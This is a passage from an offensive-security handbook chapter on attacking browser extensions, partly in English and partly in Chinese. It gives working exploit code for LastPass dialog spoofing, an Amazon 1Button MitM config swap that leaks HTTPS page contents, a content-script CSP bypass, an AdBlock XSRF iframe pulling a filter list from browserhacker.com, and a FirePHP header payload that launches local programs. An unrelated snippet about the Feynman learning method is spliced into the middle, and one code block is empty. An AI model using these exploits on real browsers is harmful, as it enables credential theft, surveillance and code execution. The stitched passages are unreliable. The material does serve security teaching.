    a.getElementById("hiddenlpsubmitdiv") == null && 
    a.forms.length > 0) {
```

-   这段 if 语句检查当前页面是否不是 acidtests.org，DOM 中是否已存在 hiddenlpsubmitdiv 脚本，以及是否至少有一个 HTML 表单。如果页面包含表单，DOM 将被修改，通过以下 JavaScript 可以判断 LastPass 的存在：


var result = "Not in use or not installed";

var lpdiv = document.getElementById('hiddenlpsubmitdiv');
// Check for the div first
if (typeof(lpdiv) != 'undefined' && lpdiv != null) {
  result = "Detected LastPass through presence of the <script> tag with id=hiddenlpsubmitdiv";

// Use JQuery to search inside script elements for the presence of lastpass_iter
} else if ($("script:contains(lastpass_iter)").length > 0) {
  result = "Detected LastPass through presence of the embedded <script> which includes references to lastpass_iter";
  
} else {
  if (document.getElementsByTagName("form").length == 0) {
      result = "The page doesn't seem to include any forms - we can't tell if LastPass is installed";
  }
}
```

First, the JavaScript checks for the script element discussed earlier. If that’s not found, it will then proceed to check for the embedded JavaScript. Finally, the script will update the result variable if there are no forms in the page.

Using the absence or presence of DOM properties gives you a reliable way to fingerprint the extensions in the browser. The DOM properties that are the telltales will depend entirely on the target.

### Firebug Example

Firebug can be installed as an extension or a script (Firebug Lite). Let’s use Firebug as an example to go over how to detect slight extension differences. Once you discover the extension is installed, you’ll want to confirm that it is actually the extension and not the Lite version. This can be tricky, because they create a lot of the same properties in the DOM. However, you come armed with the knowledge of a property that is unique to the Lite version.

To detect the Firebug extensions, use the following DOM properties: `!!window.console.clear`, `!!window.console.exception`, and `!!window.console.table`. If they all return true, the browser has Firebug installed and active.

A test that is unique to Firebug Lite is `!!window.console.provider`. If you want to confirm that the extension is not the Lite version, you’ll need that last test to return false.

## Fingerprinting using the Manifest

In the past, the extensions really helped you out when trying to fingerprint them. Google Chrome extensions based on manifest version 1 permitted access to all files of the extension and could easily be reached by their URL: `chrome-extension://<guid>/path/to/file.txt`. Because all extensions need to have a `manifest.json` file, knowing the GUID would allow you to simply request the following URL:

```
chrome-extension://abcdefghijklmnopqrstuvwxyz012345/manifest.json
```

But that was then; this is now. Now you need to do a little more work to fingerprint the extension using the files in the manifest. In manifest version 2, Google made no extension resources accessible by default.

Of course, some extension developers rely on their resource to be accessible for correct functionality. Google created a new array called `web_accessible_resources` in the `manifest.json` file. This array lists resources that can be accessed via a URL. The following snippet from the manifest file shows an example array being declared, making `logo.png`, `menu.html`, and `style.css` accessible:

```
{
  {
    "name": "extensionName",
    "version": "versionString",
    "manifest_version": 2
  },
  "web_accessible_resources": [ "logo.png", "menu.html", "style.css" ]
}
```

With this fictitious extension, the following URL can access the `logo.png` resource:

```
chrome-extension://abcdefghijklmnopqrstuvwxyz012345/logo.png
```

Hence, you need just two pieces of information to fingerprint your target extension. The first is GUID, which is covered in a moment. The other piece of information is which resources (if any) are defined in the `web_accessible_resources` array.

Luckily for you, most extensions have at least one file declared in `web_accessible_resources`. Knowing the resource, next you need to discover the extension’s GUIDs (32-character strings). You can achieve all this information trivially by scraping content from the Chrome Web Store.

You can do this manually or by using publicly available tools such as XSS ChEF26 from Kotowicz. It will download and unpack extensions from the Chrome Web Store, so you can use it to scan the `manifest.json` files and build your Chrome extension fingerprinting database from there.

Now that you have your Chrome extension resource database, you’ll need to run some code in the hooked browser to probe for that resource. Use the earlier `logo.png` resource to create the following code:27

```
var testScript = document.createElement("script");
testURL = "chrome-extension://abcdefghijklmnopqrstuvwxyz012345/logo.png";
testScript.setAttribute("onload", "alert('Extension Installed!')");
testScript.setAttribute("src", testURL);
document.body.appendChild(testScript);
```

You can extend this code to iterate through your database of extensions and very quickly fingerprint target extensions.

The methods examined in the previous sections will give you insight into what extensions are available for you to target. Research into attacking extensions is still expanding so be sure to keep up-to-date with new techniques.

# Attacking Extensions

There will be many avenues to attack a target and these will depend intimately on the functionality of the extension. An understanding of what is accessible from the attacker’s position is important.

Vulnerabilities can result due to the developers creating interfaces that can easily be replicated in the web page origin, lack of encryption, improper validation, and more. Let’s jump straight in and explore some real-world examples.

## Impersonating Extensions

By this stage you might be wondering why you would want to steal someone’s password. Why steal a password when, instead, you can just inject a hook, piggyback on a victim’s session, and impersonate them without ever having to type in a password?

We touched briefly on stealing passwords using social engineering techniques in Chapter 2 and Chapter 5, but what wasn’t covered was just how serious the password reuse issue is. In 2011 Joseph Bonneau28 researched the issue of password reuse by analyzing password hashes disclosed from hacks against Gawker and rootkit.com. His research, while only comparing a relatively small subset of users present in both systems, conservatively estimated that password reuse occurred in about 30 percent of instances.

Even if this figure is an overestimation, you would be fooling yourself if you thought a lot of users didn’t reuse their passwords for certain systems. One of the common approaches to addressing the issue of password reuse is by using unique and potentially random passwords for every site you visit. This, of course, then introduces a whole other set of problems.

### Impersonating the LastPass Extension

How does the average Joe maintain all these unique passwords? Writing all the passwords down on a piece of paper that is kept secure is one option; and potentially a sound option depending on how well the piece of paper is protected. Password management software is another approach, one that has slowly been gaining traction as more and more offerings have made their way online. Of course, another factor that has likely been driving the popularity of these applications is the issue of password breaches and impacts of password reuse coming under the media spotlight. The LinkedIn breach of 2012 highlighted the issue of password security for millions of users.29 Perhaps the initial question for an attacker shouldn’t be why would you want to steal a password, but instead, why steal one password when you can steal access to all passwords used by a victim?

But what does this have to do with extensions? Well, a common feature of many password management software suites includes integration with web browsers. In fact, some products use browser extensions as their primary method of access.


LastPass 是一种选项，也是目前可用的更流行的在线密码管理软件包之一。30 在这里的“在线”指的是 LastPass 将加密后的密码副本存储在其系统上，从而可以在多个浏览器或设备之间通过 Internet 同步。

那么这些在线密码系统安全吗？一种攻击它们的方法是利用社交工程技术。在 Chrome 的例子中，需要 UI 交互的扩展程序常常使用看似来自扩展图标的无害框架。Figure 7-12 展示了 LastPass 身份验证对话框。

 start figure 

**Figure 7-12:** LastPass 扩展在 Chrome 中


 end figure 

除去一些小指示器（如右上角三角形指向 LastPass 按钮），很少有指示器能验证对话框的完整性。与 HTTPS 包含锁图标、修改后的地址栏等用户逐渐熟悉的提示不同，Chrome 的扩展 UI 元素没有这些。你可以通过显示新的 DIV 元素，甚至新的 IFrame 来冒充该对话框。下面的示例展示了这种情况（见 Figure 7-13）。

 start figure 

**Figure 7-13:** 假冒的 LastPass 对话框


 end figure 

对比 Figure 7-13 与 Figure 7-12，可以看出缺失的视觉提示非常细微。结合其他社交工程技术（如细微的通知窗口），可能足以误导受害者泄露 LastPass 凭据。随后，使用键盘记录器（如第 5 章所述）即可轻松获取这些凭据。这些凭据随后可用于访问受害者的 LastPass 账户，进而可能打开其所有密码的大门。

## 跨域脚本

跨域脚本（XCS），有时也称为跨域脚本，31 是一种允许从不受信任区域向受信任区域发送指令的扩展攻击向量。32 通常，攻击会将 JavaScript 指令从 Internet 区域 smuggle 到受信任的 chrome:// 区域。

这到底意味着什么？当一个 Internet 网站成功将代码注入浏览器扩展的 chrome:// 区域时，就会发生 XCS。当这些指令执行时，它们会以被注入的扩展组件的特权运行。这为你提供了在目标上执行特权命令的方法。

回顾本章前面探讨的浏览器扩展安全模型。Firefox 采用非常平坦的模型，而 Chrome 则有两个主要的特权级别，中间通过安全边界分隔。

在 Chrome 扩展的安全边界（background-page 侧）上，组件已通过 CSP（内容安全策略）得到加固。但另一方面，内容脚本（content scripts）缺少相同的防护。内容脚本在所访问网页的上下文中运行，能够读取和修改其 DOM。这种直接与网页交互的方式大大扩大了这些组件的攻击面。加之它们在半特权上下文中执行，因此值得高度关注。

根据目标扩展的架构不同，你需要制定不同的攻击策略。下面我们直接进入 XCS 在浏览器扩展中的具体应用。

### 中间人攻击

利用从远程位置加载的扩展数据，攻击者可能获得机会。服务器可能被 compromise，或内容通过明文 HTTP 加载并未经过充分验证。

不要忘记第 2 章讨论的中间人攻击（MitM），它允许你控制明文通信通道并注入自己的数据。这里同样可以发挥作用，为实现 XCS 提供途径。

一些扩展会直接从 Internet 加载内容到受信任的 chrome:// 区域。这可能是核心功能的一部分，也可能是因输入过滤不足而引入的 unintended vulnerability。数据的使用位置和方式取决于目标扩展。

在 Firefox 扩展中，可以通过搜索以下函数来寻找此类漏洞：

*   `window.open()` 

*   `window.opendialog()`

*   `nsIWindowWatcher()`

*   `XMLHTTPRequest()`

如果这些函数从 chrome:// 区域以不受信任的用户输入调用，你很可能已经发现了漏洞。这可能让你能够注入危险的 JavaScript，具体取决于扩展如何使用数据以及你是否能够携带指令。

在 Chrome 扩展中，这种情况直到 Google 强制执行 manifest 版本 2 才发生变化。现在内容安全策略（CSP）禁止加载通过 HTTP 的脚本，只允许通过 HTTPS 加载 whitelisted 脚本。

但请记住，有求必应。下面（经编辑）的代码来自 Stack Overflow33 论坛讨论：

```
 function loadInsecureScript(url) {
  var x = new XMLHttpRequest();
  x.onload = function() {
    eval(x.responseText); // <-- Security Hole
  };
  x.open('GET', url);
  x.send();
}

loadInsecureScript('http://browservictim.com/insecure.js');
```

论坛回复还指出，manifest.json 文件需要满足以下条件：

```
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self'",
"permissions": ["http://browservictim.com/insecure.js"],
"background": {"scripts": ["background.js"] }
```

论坛参与者指出，使用此类代码会带来巨大的安全隐患，任何实现类似代码的开发者都应该敲响警报。

无论漏洞原因如何，这种不安全的数据传输经常导致 XCS。如果通信通过明文 HTTP，那么第 2 章探讨的 MitM 攻击至少能够影响受信任的 chrome:// 区域的执行。

是否会导致命令注入，取决于数据的使用方式。让我们快速浏览一个未导致 XCS 但因扩展对数据使用方式不同而被攻击的示例。

#### 中间人攻击示例

Amazon 1Button App Chrome 扩展 34 提供了一个良好的 MitM 漏洞示例。该扩展本质上是一个网页抓取和跟踪机制，它会将所有访问的 HTTP 和 HTTPS URL 以及选定网站的部分内容报告给 alexa.com。这包括通过 HTTPS 进行的 Google 搜索。

为实现远程配置而无需升级扩展代码，Amazon 决定通过包含特定 JavaScript 文件的内容脚本来配置扩展。在版本 3.2013.627.0 中，该扩展的实现机制是获取以下文件：

*   `http://www.amazon.com/gp/bit/toolbar/3.0/toolbar/httpsdatalist.dat`

*   `http://www.amazon.com/gp/bit/toolbar/3.0/toolbar/search_conf.js`

你可能已经注意到它们是通过 HTTP 进行加载的，但更重要的在于后续分析。

`httpsdatalist.dat` 文件定义了需要监控的 HTTPS 页面列表，其内容如下：

```
 [
  "https:[/]{2}(www[0-9]?|encrypted).?google[.].*[/]"
]
```


-   [search_conf.js 文件描述了在访问网页后需要提取的元素，以便向 Alexa 报告。下面的代码片段将让你了解其中的情况：]
```
{
  "google" : {
    "urlexp" : 
      "http(s)?:\\/\\/www\\.google\\..*\\/.*[?#&]q=([^&]+)",
    "rankometer" : {
      "url":"http(s)?:\\/\\/(www(|[0-9])|encrypted)\\.(|l\\.)google\\..*\\/",
      "reload": true,
      "xpath" : {
        "block": [
          "//div/ol/li[ contains( 
            concat( ' ', normalize-space(@class), ' ' ),
            concat( ' ', 'g', ' ' ) 
          )]",
          "//div/ol/li[ contains( 
            concat( ' ', normalize-space(@class), ' ' ),
            concat( ' ', 'g', ' ' ) 
          )]",
          "//div/ol/li[ contains( 
            concat( ' ', normalize-space(@class), ' ' ),
            concat( ' ', 'g', ' ' ) 
          )]"
        ],
        "insert" : [
          "./div/div/div/cite",
          "./div/div[ contains( 
            concat( ' ', normalize-space(@class), ' ' ),
            concat( ' ', 'kv', ' ' ) 
          )]/cite",
          "./div/div/div/div[ contains( 
            concat( ' ', normalize-space(@class), ' ' ),
            concat( ' ', 'kv', ' ' ) 
          )]/cite"
        ],
        "target" : [
          "./div/h3[ contains( 
            concat( ' ', normalize-space(@class), ' ' ), 
            ' r '
          )]/descendant::a/@href",
          "./h3[ contains( 
            concat( ' ', normalize-space(@class), ' ' ), 
            ' r '
          )]/descendant::a/@href",
          "./div/h3[ contains( 
            concat( ' ', normalize-space(@class), ' ' ), 
            ' r '
          )]/descendant::a/@href"
        ]
      }
    },
    ...
  },
  ...
}
```

The scraped website contents matching XPath expressions in the search_conf.js file are reported to [`widgets.alexa.com`](http://widgets.alexa.com). These are shown in the previous configuration content.

Figure 7-14 is a screenshot showing mitmproxy35 intercepting the communication to [`widgets.alexa.com`](http://widgets.alexa.com).

 start figure 

**Figure 7-14:** Man-in-the-Middle traffic with the 1Button extension


 end figure 

However, there’s another glaring vulnerability. Remember the configuration URLs? You will notice that they are fetched over HTTP and not HTTPS. This makes them vulnerable to a MitM attack too!

Let’s say you use MitM techniques to replace httpsdatalist.dat with the following code:

```
["https://"]
```

You will also use the following code when middling the search_conf.js request:

```
{
  "pwn" : {
    "urlexp" : "http(s)?:\\/\\/",
    "rankometer" : {
      "url" :"http(s)?:\\/\\/",
      "reload": true,
      "xpath" : {
        "block": [
          "//html"
        ],
        "insert" : [
          "//html"
        ],
        "target" : [
          "//html"
        ]
      }
    },
    "cba" : {
      "url" :"http(s)?:\\/\\/",
      "reload": true
    }
  }
}
```

Using this attack, the extension will report (to Alexa) the DOM node contents of all HTTPS websites. This was achieved even without the need to inject instructions into the privileged context. All that you changed was the configuration, which resulted in you observing all the requests the user is making due to your MitM position.

### Bypassing Web Application CSP

There is one conspicuous Chrome extension component that misses out on CSP protection. The web application can employ CSP by including the HTTP header X-Content-Security-Policy in the response. The extension background page also has CSP by default. The component missing this protection is the content script.

That is right; the Chrome extension content script has no CSP protection at all. This makes for an obvious target to get around any pesky CSP restrictions implemented by the web application developers. Let’s explore how you can use this component to do your bidding.

For this example, let’s use the http://content-security-policy.com origin. If you load the URL you can look at the headers related to CSP. These are shown in the following example:

```
X-Content-Security-Policy: default-src 'self' www.google-analytics.com
 netdna.bootstrapcdn.com ajax.googleapis.com;
 object-src 'none'; media-src 'none'; frame-src 'none'; connect-src 'none';
```

The first thing to note for this example is the absence of the unsafe-eval directive. This means that when you attack this origin, you can’t leverage the eval function (or its friends, as discussed in Chapter 3) to achieve your ends. Well, that is unless you have a vulnerability in one of your target’s content scripts.

The following vulnerable content script is one you’ll use for this CSP bypass example:

```
// Get bhh URL parameter
var bhh = document.location.href.split('bhh=')[1];
if (typeof bhh == 'string') {
  eval(bhh); // eval the parameter
}
```

It has the following manifest file that only uses content scripts in your target http://content-security-policy.com origin:

```
{
  "name": "Browser Hacker's Handbook CSP Bypass Example",
  "version": "1.0",
  "description": "Browser Hacker's Handbook CSP Bypass Demonstration",
  "homepage_url": "http://browserhacker.com",
  "permissions": [
       "http://content-security-policy.com/*"
  ],
    "content_scripts": [
    {
      "all_frames": true, 
      "js": [
        "cs.js"
      ], 
      "matches": [
        "http://content-security-policy.com/*"
      ], 
      "run_at": "document_end",
      "all_frames": true
    }
    ],
    "manifest_version": 2
}
```

Now with your content script vulnerability in hand, let’s bypass the CSP control placed in the HTTP headers from the website:

```
http://content-security-policy.com/#bhh=
eval(alert('Browser Hacker\'s Handbook'))
```

When your target browser loads the preceding URL, it will circumvent the CSP. You will see that an eval is injected into the content script and runs your alert box within the origin. Figure 7-15 shows the returned CSP headers and the successful execution of the eval function.

 start figure 

**Figure 7-15:** Website CSP Bypass in a Chrome Extension


 end figure 

You have successfully bypassed the CSP set by a web application through a vulnerability in a Chrome extension. More specifically, you have exploited a vulnerability in a content script, which has no protection given to it by CSP.

### Achieving Same Origin Policy Bypass

You may remember that Chrome content scripts have more privileges than the standard Internet zone. They do not have a vast number of extra privileges, but there is one you will be interested in. It is the ability to read the responses from cross-origin requests. That is powerful by itself, but it gets better. When the request is sent cross origin, the headers include any cookies that are associated with that origin. You guessed it: the cookie will include any authenticated session tokens, too.

A content script can operate in many ways, and there will be varying situations depending upon its purpose. In a lot of cases, the content script will be interacting with the DOM. Hence, the DOM will often form part of the attack surface.

Attacking an extension’s content scripts is very similar to exploiting classic DOM XSS. The good news here is you can reuse all your DOM XSS knowledge to exploit extensions.

For successful exploitation, the content script needs to grab your data and use it within the privileged context. The exact place in the DOM will depend on the extension being targeted. However, the <title> element is usually a safe bet, because a lot of extensions fetch content from the <title> element.


-   [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者**Richard Feynman**。

1.  运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```


Figure 7-17 展示了脆弱的内容脚本如何将 XSS 漏洞引入浏览器查看的每个网页。

 start figure 

**Figure 7-17:** SOP Extension 通用 XSS 在 Chrome 中


 end figure 

Figure 7-17 指出了注入、弹出的提示框以及不包含漏洞的 HTTP 请求。你可以看到该漏洞的工作方式类似于 DOM XSS 漏洞，即通过在 URL 中使用 `#`，浏览器不会将该字符及其后的内容发送到 Web 服务器。将漏洞放在 `#` 之后，它不会出现在日志中，并可能不会被 Web 应用防火墙检测到。

不要忘记扩展中使用的匹配模式。如果扩展使用了宽松的匹配模式，那么符合该模式的所有来源都会受到该漏洞的影响。这点尤为重要，特别是当匹配模式为 `http://\*/\*`, `\*://\*/\*`, 或 `<all_urls>` 时。

### 跨站请求伪造

跨站请求伪造（XSRF）在早前章节中已讨论，并在第 9 章中得到更详细的说明。请记住，在很多情况下，可以将扩展视为一个虚拟的 Web 应用。因此，扩展也可能受到相同（或类似）的漏洞影响。

请回顾本章节中“使用清单进行指纹识别”部分，`web_accessible_resources` 参数被探讨过。它是 `manifest.json` 文件中的参数，用于指定扩展可以访问哪些资源：

```
{
  {
    "name": "extensionName",
    "version": "versionString",
    "manifest_version": 2
  },
  "web_accessible_resources": [ "logo.png", "menu.html", "style.css" ]
}
```

这意味着资源可从任何网页访问。如果上述片段在 `manifest.json` 文件中，则以下 URL 将可被访问：

```
chrome-extension://abcdefghijklmnopqrstuvwxyz012345/menu.html
```

在特定条件下，仅加载资源就会触发某些副作用并执行扩展内部的操作。这些操作可能对扩展的安全性至关重要。

想象一个虚构的扩展，当加载已列入白名单的 UI 页面时，它会从 GET 请求中读取一个配置参数。加载完成（包括处理你提供的参数）后，关键配置数据会存储在 LocalStorage 中。

让我们强调，该页面已在 `web_accessible_resources` 参数中被列入白名单。这一点很重要，因为这意味着任何网页都可以将其包含在 `<iframe>` 中。使用特别构造的 URL 加载该 IFrame 会导致该虚构扩展的 LocalStorage 对象中出现任意内容。

这与传统的客户端-服务器应用程序的 CSRF 攻击类似，因为处理始于未经验证的请求来源。

#### 跨站请求伪造示例

在前一节中，我们讨论了一个虚构的示例。事实上，这并非完全属实。过去存在至少一个 Chrome 扩展（manifest 版本 1）受 XSRF 漏洞影响，而且它曾是非常流行的扩展，用户数量超过一百万。

Chrome AdBlock 扩展版本 2.5.22 用于，令人惊讶的是，阻塞广告。其功能之一是订阅从给定 URL 下载的过滤列表。

在扩展资源内的订阅页面存在 XSRF 漏洞。通过以下 URL（最终在 chrome:// 区域内执行）触发订阅功能：

```
chrome-extension://gighmmpiobklfepjocnamgkkbiglidom/pages/subscribe.html
```

`subscribe.html` 资源加载时执行的指令位于 `subscribe.js` 脚本中。相关代码如下：

```
// 获取 URL
var queryparts = parseUri.parseSearch(document.location.search);
...
// 订阅列表
var requiresList = queryparts.requiresLocation ?
  "url:" + queryparts.requiresLocation : undefined;
BGcall("subscribe",
  {id: 'url:' + queryparts.location, requires:requiresList});
```

这段代码展示了导致漏洞的执行流程。第一行代码解析 URL 的查询部分并将其存储在 `queryparts` 变量中。最后一行代码订阅 AdBlock 到原本存储在 `location` 参数中的值。它可能是类似 `location=http://browserhacker.com` 的值，这将订阅来自 `http://browserhacker.com` 的过滤列表。因此，生成的完整 URL 如下：

```
chrome-extension://gighmmpiobklfepjocnamgkkbiglidom/pages
/subscribe.html?location=
http://browserhacker.com
```

在你了解了漏洞的工作方式后，我们来组装利用代码。你需要创建一个 IFrame，使其加载 `subscribe.html` 扩展资源并传递你想要加载的过滤列表。在此情况下，你希望过滤列表包含所有 URL。

```
<iframe style="position:absolute;left:-1000px;" id="bhh" src=""></iframe>
//...
var url = "chrome-extension://";
url += "gighmmpiobklfepjocnamgkkbiglidom";
url += "/pages/subscribe.html?";
url += "location=http://browserhacker.com/list.txt";
document.getElementById('bhh').src = url;
```

使用这段代码，目标浏览器会创建一个 IFrame 并加载该资源，同时传递 `http://browserhacker.com/list.txt` 值给 `BGcall` 扩展函数，从而加载它。

还需要做最后一步。你需要向扩展返回白名单。将 `list.txt` 上传到你的服务器，内容如下，AdBlock 将被禁用：

```
[Adblock Plus 0.7.5]
@@*$document,domain=~whitelist.all
```

必须再次强调，该漏洞仅在 manifest 版本 1 中存在。要在当前 Chrome 扩展（使用 manifest 版本 2）中成功利用此漏洞，请求的资源必须列在 `web_accessible_resources` 参数中：

```
"web_accessible_resources": [ "img/icon24.png", 
  "jquery/css/images/ui-bg_inset-hard_100_fcfdfd_1x100.png", 
  "jquery/css/images/ui-icons_056b93_2.6.440.png", 
  "jquery/css/images/ui-icons_d8e7f3_2.6.440.png", 
  "jquery/css/jquery-ui.custom.css", 
  "jquery/css/override-page.css" ]
```

AdBlock 2.6.4 版本的 manifest 并不包含 `subscribe.html` 字符串在 `web_accessible_resources` 中，如上文所示。在尝试对目标扩展发起此类攻击之前，请务必检查 `manifest.json` 文件。

### 攻击 DOM 事件处理程序

chrome:// 区域与 Firefox 浏览器的不受信任区域之间也可以通过 DOM 事件进行通信。扩展通常会在 chrome:// 区域设置一个事件监听器，等待从网页接收的输入。当事件被触发时，它会对接收到的信息执行所需的操作。

开发者需要验证与处理程序交互的内容是否经过授权。即使未经过授权，扩展可能仍允许脚本注入到 chrome:// 区域，从而绕过任何保护措施。

#### 攻击拖放操作

Firefox 通过多个事件处理程序支持拖放操作：`dragstart`、`dragenter`、`dragover`、`dragleave`、`drag`、`drop` 和 `dragend`。图片、文本、链接和 DOM 节点可以在页面内拖动，或在某些情况下直接拖入扩展。


一个重要的注意事项是，当以这种方式拖动带有属性的 HTML 元素或 DOM 节点时，所有属性、属性和方法都会复制到新位置。这在元素被拖动到 chrome:// 区域时尤为重要。一个此前看似无害的图像，如果包含 JavaScript onLoad 处理器，一旦被拖动并放入受信任区域，就可以无限制地执行：

```

```

例如，前面的图像标签会将图像加载到网页中，并在非受信任的浏览器上下文中执行 onload 代码。然后，如果你的受害者将图像拖动到 chrome:// 区域，onload 代码会再次执行。此时，当 DOM 事件处理程序运行 onload 函数时，它会拥有提升的权限。

Nick Freeman 发现了 ScribeFire43 Firefox 扩展中非常相似的漏洞。该扩展允许用户从任意来源向博客发布内容。漏洞位于用户将图像（来自任意来源）拖动到 chrome:// 区域的方式上。正如之前的示例所示，ScribeFire 会让你将指令隐藏在 onload 函数中，从而在受信任上下文中执行。

利用 DOM 事件需要仔细检查扩展程序如何处理用户输入。最终目标与其他讨论的方法相同：在 chrome:// 区域获得任意 JavaScript 执行。

### 实现操作系统命令执行

一旦你拥有 XCS（Cross-Site Scripting）漏洞，就有可能利用它来执行任意操作系统命令。这意味着你可以将命令隐藏在 chrome:// 区域中，并以像在命令行中输入那样的方式执行它们。但在此之前，让我们先看一个在 Firefox 中启动操作系统命令的示例。

#### Firefox 远程命令执行示例

如前所述，如何利用目标扩展完全取决于开发者的实现方式。扩展程序可以使用 HTTP 头部来指导其执行流程，这使得 HTTP 头部成为你的主要攻击面。

FirePHP Firefox 扩展会抓取服务器返回的某些头部，并据此决定在 Firebug 控制台中显示什么内容。如果你能拦截服务器响应，这些自定义头部会非常显眼。下面的头部展示了 FirePHP 正在查找的一些 HTTP 头部：

```
HTTP/1.1 200 OK
Date: Thu, 08 Aug 2013 14:18:44 GMT
Server: Apache
Last-Modified: Fri, 29 Mar 2013 22:45:39 GMT
ETag: "401b9-0-4d91807c0760e"
Accept-Ranges: bytes
Content-Length: 0
Keep-Alive: timeout=15, max=100
Connection: Keep-Alive
Content-Type: text/html
X-Wf-Protocol-1: http://meta.wildfirehq.org/Protocol/JsonStream/0.2
X-Wf-1-Plugin-1: http://meta.firephp.org/Wildfire/Plugin/FirePHP/
Library-FirePHPCore/0.3
X-Wf-1-Structure-1: http://meta.firephp.org/Wildfire/Structure/FirePHP/Dump/0.1
X-Wf-1-1-1-1: 29|["Browser Hacker's Handbook"]|
```

你会注意到在头部中插入了字符串 "Browser Hacker's Handbook"。通过查看 Figure 7-18，可以看到该字符串在对话框中显示。这确认了这些头部确实是扩展程序的攻击面的一部分。

 start figure 

**Figure 7-18:** FirePHP 显示服务器数据


 end figure 

现在，让我们深入了解 Eldar Marcussen 发现的扩展程序漏洞。该漏洞影响所有 FirePHP 版本，直至 0.7.1，可从 [`addons.mozilla.org/en-US/firefox/addon/firephp/versions`](https://addons.mozilla.org/en-US/firefox/addon/firephp/versions) 下载。你需要通过在 Extensions 标签页中的“安装附加组件从文件”选项进行安装。

现在，你已经安装了新的易受攻击的扩展程序，接下来需要设置环境。确保 Firebug 的 Net 标签已启用，在控制台中输入以下代码并点击运行：

```
console.log('Exploit FirePHP start')
xhr = new XMLHttpRequest();
xhr.open("GET","http://browserhacker.com/",true); 
xhr.send();
console.log('Mouseover FirePHP array to finish')
```

这段代码会向 http://browserhacker.com 发送一个 XHR 请求，模拟攻击受害者的机会。FirePHP 会在响应中查找关键头部，漏洞就位于此处。你需要关注的头部是 X-Wf-1-1-1-1，该头部在解析后会触发漏洞。这是你需要隐藏指令的头部。如果你能正确构造响应头部，你的操作系统命令将被执行。

为了演示，你需要使用代理拦截 HTTP 通信，并将利用代码注入到响应中。只需使用你喜欢的实时代理，并添加识别为 X-Wf 的目标 FirePHP 头部即可。

下面的头部会在 OSX 系统上启动计算器应用：

```
HTTP/1.1 200 OK
Date: Wed, 07 Aug 2013 00:27:48 GMT
Server: Apache
Last-Modified: Fri, 29 Mar 2013 22:45:39 GMT
ETag: "401b9-0-4d91807c0760e"
Accept-Ranges: bytes
Content-Length: 0
Keep-Alive: timeout=15, max=100
Connection: Keep-Alive
Content-Type: text/html
X-Wf-Protocol-1: http://meta.wildfirehq.org/Protocol/JsonStream/0.2
X-Wf-1-Plugin-1: http://meta.firephp.org/Wildfire/Plugin/FirePHP/
Library-FirePHPCore/0.3
X-Wf-1-Structure-1: http://meta.firephp.org/Wildfire/Structure/FirePHP/Dump/0.1
X-Wf-1-1-1-1: 476|{"RequestHeaders":{"1":"1","2":"2","3":"3","4":"4","5":"5",
"6":"6","7":"7","8":"8","9":"9","UR<script>var lFile=Components.classes
[\"@mozilla.org/file/
local;1\"].createInstance
(Components.interfaces.nsILocalFile);lFile.initWithPath
(\"/Applications/Calculator.app/Contents/MacOS/Calculator\");var process=
Components.classes[\"@mozilla.org/process/util;1\"]
.createInstance(Components.interfaces.nsIProcess);process.init(lFile);
process.run(true,[],0);void(0);<\/script>":"PWND}}|
```

这个漏洞还需要一个额外步骤。受害者需要将鼠标悬停在控制台的 Dump 行上，触发 Variable Viewer，从而利用扩展程序。这会运行 Calculator.app，结果如 Figure 7-19 所示。

在此示例中，攻击被隐藏在一个大的数组中，因此漏洞不会显示在控制台中。另一个优势是，字符串占用了更多的屏幕空间，增加了受害者不小心将鼠标悬停到它上方的可能性。

 start figure 

**Figure 7-19:** FirePHP 在 OSX 上的利用


 end figure 

现在，你已经利用了 FirePHP 漏洞在 OSX 上。该扩展程序同样可以在 Windows 上被利用，通过修改长度并使用以下字符串作为 lFile.initWithPath 调用的参数：

```
"C:\\\\\\\\Windows\\\\\\\\system32\\\\\\\\calc.exe\"
```

这种漏洞在可以安装 Firefox 的任何操作系统上都几乎都很容易被利用。

FirePHP 的开发者已经修复了该漏洞。你可以查看补丁：[`github.com/firephp/firephp-extension/commit/fccab466cd5f014c36082d76ae300f2cd612ba51`](https://github.com/firephp/firephp-extension/commit/fccab466cd5f014c36082d76ae300f2cd612ba51)。在代码中，你会看到多处未对攻击者可控内容进行编码或过滤的地方。

### 实现命令注入


你会在服务器端脚本调用操作系统时熟悉 `cmd` 注入，在这种情况下你可以将数据隐藏进去，当服务器将你的数据作为参数使用时，它实际上会执行你传递的命令。

传统的 `cmd` 注入在浏览器中并无不同。Chrome 扩展程序可以通过使用 NPAPI 在文件系统中执行程序。当传递给程序的参数来自不可信来源（如网页）时，存在 `cmd` 注入的潜在风险。

NPAPI 程序在沙箱之外执行（在用户上下文中）。滥用此 Chrome 扩展功能应立即为你提供对操作系统的特权访问。

### 操作系统 `cmd` 注入示例

`cr-gpg` Chrome 扩展通过使用 NPAPI 插件实现 Gmail Web 界面的电子邮件 PGP 加密和解密。该插件调用系统中已安装的 `gpg` 二进制文件。以下二进制文件在清单文件中声明，并由插件用于调用 `gpg` 二进制文件：

```
"plugins": [
  {"path": "gmailGPG.plugin" },
  {"path": "gmailGPG.dll"},
  {"path": "gmailGPG.so"}
],
```

Kotowicz45 在 `cr-gpg` Chrome 扩展 0.7.4 alpha 版中发现了一个 `cmd` 注入漏洞。46 这为探索 `cmd` 注入漏洞提供了理想的示例。尽管此漏洞出现在清单版本 1 中，同一原则同样适用于清单版本 2。实际上，就实际目的而言，该扩展仍然容易受到同类攻击。

首先，让我们探索可能的攻击向量，以获得对扩展的控制并查看你能做什么。当向受害者发送已加密的电子邮件时，他们会解密电子邮件密文，然后在 Gmail Web 界面中显示明文。当解密消息被显示时，扩展执行了以下代码：47

```
$($(messageElement).children()[0]).html(tempMessage);
```

这段代码在 http://mail.google.com/ 和 https://mail.google.com/ 虚拟源中引入了存储型 XSS 漏洞。也就是说，注入发生在扩展的内容脚本中。

这种漏洞不在 Web 应用层面。XSS 漏洞仅在使用 `cr-gpg` 扩展的 Chrome 浏览器中，在 Gmail 虚拟源下可被利用。

要利用此漏洞，你需要向受害者发送一个包含 `<script>alert(1)</script>` 的加密消息。当受害者解密密文后，可怕的显示数字 1 的警告框就会出现。

从这个特权位置，你可以在 Gmail 虚拟源上进行标准的 XSS 攻击。你也可以使用内容脚本进行本章前部分覆盖的其他攻击。但请回到我们之前承诺的 `cmd` 注入问题。别担心，你会在本节末尾链接所有内容时重新审视这次 XSS 攻击。

